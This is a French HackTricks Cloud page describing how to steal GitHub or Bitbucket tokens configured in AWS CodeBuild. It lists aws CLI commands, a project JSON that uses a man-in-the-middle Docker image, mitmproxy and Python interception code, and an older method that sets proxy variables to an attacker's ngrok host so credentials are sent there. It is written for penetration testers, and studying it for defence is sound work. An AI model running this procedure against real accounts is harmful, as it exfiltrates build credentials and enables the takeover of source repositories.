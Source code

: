 # AWS Codebuild - Fuite de jetons

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Récupérer les jetons configurés pour Github/Bitbucket

Tout d'abord, vérifiez s'il existe des informations d'identification source configurées que vous pourriez divulguer :
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si vous constatez que l'authentification, par exemple sur Github, est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (jeton GH ou jeton OAuth) en faisant en sorte que Codebuild utilise une **image Docker spécifique** pour exécuter la construction du projet.

À cette fin, vous pouvez **créer un nouveau projet Codebuild** ou modifier l'**environnement** d'un projet existant pour définir l'**image Docker**.

L'image Docker que vous pouvez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Il s'agit d'une image Docker très basique qui définira les variables d'environnement `https_proxy`, `http_proxy` et `SSL_CERT_FILE`. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans `https_proxy` et `http_proxy` et de faire confiance au CERT SSL indiqué dans `SSL_CERT_FILE`.

1. **Créez et téléchargez votre propre image Docker MitM**
* Suivez les instructions du dépôt pour définir l'adresse IP de votre proxy et définir votre certificat SSL, puis **construisez l'image Docker**.
* **NE DÉFINISSEZ PAS `http_proxy`** pour ne pas intercepter les demandes vers le point de terminaison des métadonnées.
* Vous pouvez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
* Une fois que vous avez construit l'image Docker, **téléchargez-la dans un référentiel public** (Dockerhub, ECR...).
2. **Définissez l'environnement**
* Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
* Configurez le projet pour utiliser l'**image Docker précédemment générée**.

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

3. **Définissez le proxy MitM sur votre hôte**
* Comme indiqué dans le **dépôt Github**, vous pouvez utiliser quelque chose comme :
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **Exécutez la construction et capturez les informations d'identification**

*   Vous pouvez voir le jeton dans l'en-tête **Authorization** :

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Cela peut également être fait à partir de la ligne de commande aws avec quelque chose comme

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via le protocole HTTP~~

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné la semaine du 20 février 2023 (je pense le vendredi). Donc un attaquant ne peut plus l'exploiter :)**
{% endhint %}

Un attaquant disposant de **permissions élevées sur un CodeBuild pourrait divulguer le jeton Github/Bitbucket** configuré ou, si les permissions ont été configurées via OAuth, le **jeton OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild en les pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changer l'URL du dépôt github pour utiliser HTTP au lieu de HTTPS, par exemple : **http://**github.com/carlospolop-forks/TestActions
* Ensuite, exécuter l'exemple de base à partir de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port indiqué par les variables de proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Build the project**, les **informations d'identification** seront **envoyées en texte clair** (base64) vers le port mitm :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le jeton depuis sa machine, lister tous les privilèges qu'il possède et les exploiter plus facilement que d'utiliser le service CodeBuild directement.
{% endhint %}

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
